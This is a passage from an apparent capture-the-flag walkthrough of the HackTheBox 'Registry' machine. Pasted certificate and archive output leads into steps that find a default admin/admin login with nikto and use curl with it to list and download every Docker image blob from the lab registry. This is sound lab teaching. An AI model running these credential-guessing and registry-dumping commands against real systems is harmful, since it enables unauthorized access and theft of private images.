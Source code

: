       zGTzI3Y2UMpO7RXEN06s6tH4ufpaxlppgOnR2hSvwSXrWyVh2DVG1ZZu+lLt4eHI
      qFJvJr5k/xd0N+B+v2HrCOhfAgMBAAGjUzBRMB0GA1UdDgQWBBTpKeRSEzvTkuWX
      8/wn9z3DPYAQ9zAfBgNVHSMEGDAWgBTpKeRSEzvTkuWX8/wn9z3DPYAQ9zAPBgNV
      HRMBAf8EBTADAQH/MA0GCSqGSIb3DQEBCwUAA4IBAQABLgN9x0QNM+hgJIHvTEN3
      LAoh4Dm2X5qYe/ZntCKW+ppBrXLmkOm16kjJx6wMIvUNOKqw2H5VsHpTjBSZfnEJ
      UmuPHWhvCFzhGZJjKE+An1V4oAiBeQeEkE4I8nKJsfKJ0iFOzjZObBtY2xGkMz6N
      7JVeEp9vdmuj7/PMkctD62mxkMAwnLiJejtba2+9xFKMOe/asRAjfQeLPsLNMdrr
      CUxTiXEECxFPGnbzHdbtHaHqCirEB7wt+Zhh3wYFVcN83b7n7jzKy34DNkQdIxt9
      QMPjq1S5SqXJqzop4OnthgWlwggSe/6z8ZTuDjdNIpx0tF77arh2rUOIXKIerx5B
      -----END CERTIFICATE-----
      readme.md0000775000004100000410000000020113472260460012667 0ustar  www-datawww-data
      # Private Docker Registry

      - https://docs.docker.com/registry/deploying/
      - https://docs.docker.com/engine/security/certificates/

      gzip: stdin: unexpected end of file

  3.2 (OPTIONAL) Write the certificate - ca.crt - to a file and import it to firefox.
     Remove the old unsecure https cert to get a secure, trused, connection towards https://docker.registry.htb

4. Enumeration with nikto finds..
    .. Default account found for 'Registry' at /v2/_catalog (ID 'admin', PW 'admin').
    .. /v2/_catalog: This is the Docker Registry server. This might be interesting...

5. Using CURL we can browse and download files from the Registry. Note that this can also be done through the browser.
    Search for available repos:
      root@p3:/opt/htb# curl -u admin:admin -k --request GET https://docker.registry.htb/v2/_catalog
      {"repositories":["bolt-image"]}

    Browse the repo 'bolt-image':
      root@p3:/opt/htb# curl -u admin:admin -k --request GET https://docker.registry.htb/v2/bolt-image/tags/list#
      {"name":"bolt-image","tags":["latest"]}

    Browse/download the tag 'latest', in example below I'll download it:
      curl -u admin:admin -k --request GET https://docker.registry.htb/v2/bolt-image/manifests/latest -O
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
      100  7439  100  7439    0     0  44544      0 --:--:-- --:--:-- --:--:-- 44544

6. View the output of the file latest and download all the blobs within.
    curl -u admin:admin -k -O --request GET ..
    .. https://docker.registry.htb/v2/bolt-image/blobs/sha256:302bfcb3f10c386a25a58913917257bd2fe772127e36645192fa35e4c6b3c66b
    .. https://docker.registry.htb/v2/bolt-image/blobs/sha256:3f12770883a63c833eab7652242d55a95aea6e2ecd09e21c29d7d7b354f3d4ee
    .. https://docker.registry.htb/v2/bolt-image/blobs/sha256:02666a14e1b55276ecb9812747cb1a95b78056f1d202b087d71096ca0b58c98c
    .. https://docker.registry.htb/v2/bolt-image/blobs/sha256:c71b0b975ab8204bb66f2b659fa3d568f2d164a620159fc9f9f185d958c352a7
    .. https://docker.registry.htb/v2/bolt-image/blobs/sha256:2931a8b44e495489fdbe2bccd7232e99b182034206067a364553841a1f06f791
    .. https://docker.registry.htb/v2/bolt-image/blobs/sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    .. https://docker.registry.htb/v2/bolt-image/blobs/sha256:f5029279ec1223b70f2cbb2682ab360e1837a2ea59a8d7ff64b38e9eab5fb8c0
    .. https://docker.registry.htb/v2/bolt-image/blobs/sha256:d9af21273955749bb8250c7a883fcce21647b54f5a685d237bc6b920a2ebad1a
    .. https://docker.registry.htb/v2/bolt-image/blobs/sha256:8882c27f669ef315fc231f272965cd5ee8507c0f376855d6f9c012aae0224797
    .. https://docker.registry.htb/v2/bolt-image/blobs/sha256:f476d66f540886e2bb4d9c8cc8c0f8915bca7d387e536957796ea6c2f8e7dfff
